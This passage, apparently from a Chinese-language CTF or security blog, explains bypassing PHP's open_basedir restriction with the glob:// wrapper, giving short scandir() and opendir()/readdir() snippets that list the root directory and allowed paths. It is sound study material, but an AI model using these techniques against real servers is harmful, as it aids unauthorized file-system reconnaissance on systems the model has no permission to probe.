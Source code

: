 ![](/blog_img/open_basedir_5.png)
当传入的参数为glob:///\*时会列出根目录下的文件，传入参数为glob://\*时会列出open_basedir允许目录下的文件。

## scandir()+glob://
这是看TCTF WP里面的一种方法，最为简单明了:
代码如下:
```php
<?php
var_dump(scandir('glob:///*'));
>
```
![](/blog_img/open_basedir_6.png)
这种方法也只能列出根目录和open_basedir允许目录下的文件。

## opendir()+readdir()+glob://
脚本如下:
```php
<?php
if ( $b = opendir('glob:///*') ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```